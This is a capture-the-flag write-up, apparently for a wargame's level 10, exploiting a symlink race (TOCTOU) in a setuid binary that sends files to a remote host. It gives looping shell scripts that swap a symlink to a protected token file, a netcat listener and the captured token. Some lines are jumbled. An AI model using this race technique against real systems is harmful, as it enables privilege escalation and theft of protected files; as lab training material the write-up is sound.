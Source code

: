 ##Level 10

In this level, we have an executable which will send a file to a remote host.

```bash
ls -l
        -rwsr-s---+ 1 flag10 level10 8617 Mar  5  2016 level10
        -rw-------  1 flag10 flag10    26 Mar  5  2016 token
```
We can create a symlink to try to read the content in the token file (symlink race)

ln -s /home/user/level10/token /tmp/flag
Now let's try to send my file to the server

./level10 /tmp/flag 192.168.56.101
    You don't have access to /tmp/flag
cat /tmp/flag
        cat: /tmp/flag: Permission denied
Nope, still unable to execute my flag and to send it to a server

To open a port in your machine: nc -l 6969

let's get the executable to my host with scp

scp -P 4242 level10@192.168.56.101:/tmp/flag /mnt/nfs/homes/emaugale/Desktop, So you have to find a way to make your file accessible to the server.
when we use ltrace, we can see that the executable will first try to access our file and then read the file's content. -> Do a /tmp/flag file with nothing on it when accessed; we can delete it and recreate one, which will be a symlink to the token file, launch our server, and print the result

```bash
    while true;
        do
        touch /tmp/link
        rm -f /tmp/link
        ln -s /home/user/level10/token /tmp/link
        rm -f /tmp/link
        done
```

```bash
    while true;
    do
    /home/user/level10/level10 /tmp/link 192.168.56.101 2> /dev/null
    done
...
bash /tmp/script1.sh & bash /tmp/script2.sh
```

Check flag.Here is your token : feulo4b72j7edeahuete3no7c
